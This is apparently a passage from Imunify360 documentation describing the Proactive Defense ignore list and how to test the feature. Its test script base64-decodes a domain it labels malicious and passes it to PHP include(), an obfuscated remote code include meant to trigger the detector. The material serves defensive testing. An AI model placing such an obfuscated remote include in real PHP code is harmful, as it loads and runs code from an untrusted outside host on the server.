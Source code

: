 ![](/images/proactivedefenseignorelist_zoom70.png)

The _Ignore List_ table includes the following columns:

* Add Date/Time — displays the date and the exact time of adding a file. To view the exact time click the clock icon in the desired file line. To order the files from the last to the first or vice versa click the ▲ icon in the Add Date/Time column header.
* Script Path — displays the path to the script.
* Rules to ignore — displays the pattern to be ignored.
* Actions — allows to view details and perform actions on the file.

**How to test Proactive Defense**

1. Set Proactive Defense to _Log only_ mode (requests will not be blocked) or to _Kill mode_ to kill all requests.
2. Create a file with the following content:

``` PHP
<?php
/* Imunify360 Proactive Defence test script */

echo "<pre>";
echo "Step 1<br>";

// Decode string with domain: 37kddsserrt.xyz
$url=base64_decode("MzdrZGRzc2VycnQueHl6");

echo "Step 2<br>";
echo "</pre>";

// Try to access a malicious domain
include($url);
die();
?>
```
3. Place this file on the server.
4. Call a test page with the script from the point 2.
5. If Proactive Defense is disabled, you will see _Step 1_ and _Step 2_ strings after calling the script.
6. If Proactive Defense is enabled and _Log only_ mode is set, you will see _Step 1_ and _Step 2_ strings after calling the script and a new event in the _Detected Events_ table.
7. If Proactive Defense is enabled and _Kill mode_ is set, the test page returns an error.
